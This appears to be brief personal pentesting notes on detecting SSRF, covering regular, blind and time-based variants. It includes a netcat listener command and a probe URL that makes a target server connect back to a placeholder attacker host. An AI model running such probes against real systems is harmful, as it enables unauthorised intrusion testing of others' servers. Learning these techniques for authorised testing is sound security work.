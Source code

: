 # SSRF
### SSRF is serer-side attacks
- To check if the application is vulnerable

```
1. Set up Netcat listener: nc -lnvp 5555
2. Try to connect back to our server. 
https://example.com/load?q=http://$ATTCKER:5555
3. If the connectino is established, the target is vulnerable to SSRF
```

### Blind SSRF
- Similar to regular SSRF, except that there's no information display on the front end. So we have to check.

```
1. Set up Netcat listener: nc -lnvp 5555
2. Upload file that can create connections to our machine
3. If the connection is established, the target is vulnerable.
```

### Time-based SSRF
- We can try to have the target to request resources and check the time it responds in BurpSuite. If the requested resources are invalid and it takes the applications way longer to respond, we can confirm the vulnerability


